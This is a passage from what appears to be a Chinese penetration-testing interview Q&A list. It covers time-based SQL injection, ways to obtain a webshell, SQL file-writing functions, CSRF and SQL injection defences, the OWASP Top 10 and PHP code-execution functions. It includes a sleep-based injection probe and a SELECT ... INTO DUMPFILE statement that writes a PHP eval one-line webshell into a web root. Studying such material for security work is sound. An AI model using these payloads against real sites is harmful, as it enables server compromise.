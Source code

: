 ### 43、延时注入如何来判断？

```
if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)
```

### 44、盲注和延时注入的共同点？

都是一个字符一个字符的判断

### 45、如何拿一个网站的webshell？上传，后台编辑模板，sql注入写文件，命令执行，代码执行， 一些已经爆出的cms漏洞，比如dedecms后台可以直接建立脚本文件，wordpress上传插件包含脚本文件zip压缩包等

### 46、sql注入写文件都有哪些函数？

```
select '一句话' into outfile '路径'
select '一句话' into dumpfile '路径'
select '<?php eval($_POST[1]) ?>' into dumpfile  'd:\wwwroot\baidu.com\nvhack.php';
```

### 47、如何防止CSRF?

1）验证referer
2）验证token
详细：http://cnodejs.org/topic/5533dd6e9138f09b629674fd

### 48、owasp 漏洞都有哪些？

1）SQL注入防护方法：
2）失效的身份认证和会话管理
3）跨站脚本攻击XSS
4）直接引用不安全的对象
5）安全配置错误
6）敏感信息泄露
7）缺少功能级的访问控制
8）跨站请求伪造CSRF
9）使用含有已知漏洞的组件
10）未验证的重定向和转发

### 49、SQL注入防护方法？

1）使用安全的API
2）对输入的特殊字符进行Escape转义处理
3）使用白名单来规范化输入验证方法
4）对客户端输入进行控制，不允许输入SQL注入相关的特殊字符
5）服务器端在提交数据库进行SQL查询之前，对特殊字符进行过滤、转义、替换、删除。

### 50、代码执行，文件读取，命令执行的函数都有哪些？

1）代码执行：

```
eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function
```
